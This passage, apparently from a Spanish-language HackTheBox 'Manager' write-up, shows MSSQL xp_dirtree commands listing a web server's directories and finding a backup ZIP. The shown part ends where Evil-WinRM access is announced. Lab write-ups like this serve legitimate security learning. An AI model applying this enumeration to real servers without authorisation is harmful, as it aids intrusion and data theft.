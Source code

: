 Chequémoslo:
```sql 
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub
subdirectory   depth   file   
------------   -----   ----   
custerr            1      0   

history            1      0   

logs               1      0   

temp               1      0   

wwwroot            1      0
```
Ahí esta.

Veamos su contenido:
```sql 
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1
```
Parece que podemos ver los archivos que componen a la página web, pero parece que ahí se encuentra un **archivo ZIP** que es un **backup**.

<br>

<h3 id="ZIP">Analizando Contenido de Archivo ZIP y Ganando Acceso a la Máquina con Evil-WinRM</h3>

Probemos si existe esa ruta en la página web:

<p align="center">
<img src="/assets/images/htb-writeup-manager/Captura8.png">
</p>
